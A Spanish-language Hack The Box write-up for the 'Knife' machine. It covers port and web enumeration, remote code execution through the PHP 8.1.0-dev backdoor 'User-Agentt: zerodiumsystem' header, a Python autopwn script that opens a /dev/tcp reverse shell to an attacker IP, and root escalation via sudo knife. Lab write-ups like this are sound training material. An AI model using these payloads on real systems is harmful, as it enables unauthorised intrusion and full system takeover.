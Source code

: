```yaml
---
title: HTB_Knife
type: docs
prev: docs/savinotes/
---
```

# Knife {-}

## Introduccion {-}

La maquina del dia se llama Knife.

El replay del live se puede ver aqui

[![S4vitaar Knife maquina](https://img.youtube.com/vi/Um6-iIYzUWk/0.jpg)](https://www.youtube.com/watch?v=Um6-iIYzUWk)

No olvideis dejar un like al video y un commentario...
## Enumeracion {-}

### Reconocimiento de maquina, puertos abiertos y servicios {-} 

#### Ping {-}

```bash
ping -c 1 10.10.10.242
```
ttl: 63 -> maquina Linux

#### Nmap {-}

```bash
nmap -p- --open -T5 -v -n 10.10.10.242
```

Va lento

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.242 -oG allPorts 
extractPorts allPorts
nmap -sC -sV -p22,80 10.10.10.242 -oN targeted
```


| Puerto | Servicio | Que se nos occure? | Que falta? |
| ------ | -------- | ------------------ | ---------- |
| 22     | tcp      | Conneccion directa | creds      |
| 80     | tcp      | Web, Fuzzing       |            |

### Analyzando la web {-}

#### Whatweb {-}

```bash
whatweb http://10.10.10.242
```

Es un Apache 2.4.41 en un Ubuntu Con una version 8.1.0-dev de PHP. 


#### Checkear la web {-}

Si entramos en la url 
```bash
 http://10.10.10.242 
```
, No vemos gran cosas tenemos que aplicar Fuzzing.

#### Fuzzing con WFuzz {-}

```bash
wfuzz -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.242/FUZZ
wfuzz -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -z list,txt-php http://10.10.10.242/FUZZ.FUZ2Z
```

Tampoco encontramos gran cosa por aqui.

#### Analyzamos las cabezeras de la respuesta al lado del servidor {-}

```bash
curl -s -X GET http://10.10.10.242 -I
```

No vemos nada. Miramos por la version de php que parece un poco rara.


## Vulnerability Assessment {-}


### php 4.1.0-dev {-}

Si buscamos en google pro 
```bash
 PHP 8.1.0 exploit 
```
 vemos una pagina que habla de User-Agent Remote Code Execution.

La vulnerabilidad aqui reside en poner un User-Agentt con 2 T con un zerodiumsystem command.

```bash
"User-Agent": "Mozilla/5...."
"User-Agentt": "zerodiumsystem('" + COMMANDO + "');"
```

Lo intentamos

```bash
curl -s -X GET http://10.10.10.242 -H "User-Agentt: zerodiumsystem('whoami');"
#Output 
james
...

curl -s -X GET http://10.10.10.242 -H "User-Agentt: zerodiumsystem('id');" head -n 1
```
## Vuln exploit & Gaining Access {-}

### Ganando accesso con un Autopwn en Pyton {-}

```python
#!/usr/bin/python3

from pwn import *

def def_handler(sig, frame):
    print("\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "http://10.10.10.242/"
lport = 443

def makeRequest():

    headers = {
        'User-Agentt': 'zerodiumsystem("bash -c \'bash -i >& /dev/tcp/10.10.14.15/443 0>&1\'");'
    }

    r = requests.get(main_url, headers=headers)

if __name__ == '__main__':

    p1 = log.progress("Pwn Web")
    p1.status("Explotando vulnerabilidad PHP 8.1.0-dev - User Agentt Remote Code Execution")

    time.sleep(2)

    try:
        threading.Thread(target=makeRequest, args=()).start()
    except Exception as e:
        log.error(str(e))

    shell = listen(lport, timeout=20).wait_for_connection()

    if shell.sock is None:
        p1.failure("No ha sido posible comprometer el sistema")
        sys.exit(1)
    else:
        p1.success("Comando inyectado exitosamente")
        shell.sendline("sudo knife exec -E 'exec \"/bin/sh\"'")
        shell.interactive()
```

Lo lanzamos con el commando 
```bash
 python3 autopwn.py 
```


```bash
whoami
#Output
james

hostname -I
#Output
10.10.10.242
```

## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
id
sudo -l
```

Podemos ejecutar el commando 
```bash
 /usr/bin/knife 
```
 como el usuario root sin proporcionar contraseña.

buscando por [gtfobins](https://gtfobins.github.io/gtfobins/knife/#sudo), vemos que podemos usar este
commando para ejecutar una shell.

```bash
sudo knife exec -E 'exec "/bin/bash"'
whoami
#Output 
root
```

Ya podemos leer la flag root.txt
